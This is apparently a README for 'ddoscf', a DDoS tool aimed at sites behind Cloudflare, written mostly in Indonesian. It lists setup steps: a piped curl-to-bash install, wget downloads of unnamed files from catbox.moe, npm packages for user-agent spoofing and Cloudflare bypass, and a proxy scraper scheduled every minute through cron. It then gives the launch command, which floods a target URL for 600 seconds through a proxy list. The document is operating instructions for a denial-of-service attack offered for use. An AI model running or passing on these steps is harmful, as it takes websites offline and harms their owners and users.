 # ddoscf
TOOLS DDOS FOR CF
INSTALLASI SCRIPT

apt install unzip
Upload zip dahulu ke mobaxterm
cd chellddos
nano a
apt install python3
apt update && apt install npm



curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash && source ~/.bashrc

nvm install 18 && nvm use 18
wget https://files.catbox.moe/q4ydcz.txt
wget https://files.catbox.moe/9ltq1j.py





npm i fake-useragent
npm i request
npm i gradient-string 
npm i cheerio
npm i randomstring
npm i user-agents
npm i axios
npm i hpack
npm i sockopt
npm i cloudscraper

python3 scrape.py

echo "* * * * * python3 /root/scrape.py" | crontab -

bash a -y

(RUN DDOS)
screen -S ddos
cd chellddos
node tls https://link.com 600 64 10 proxy.txt

(DONE&STOP)
ctrl + z
killall screen
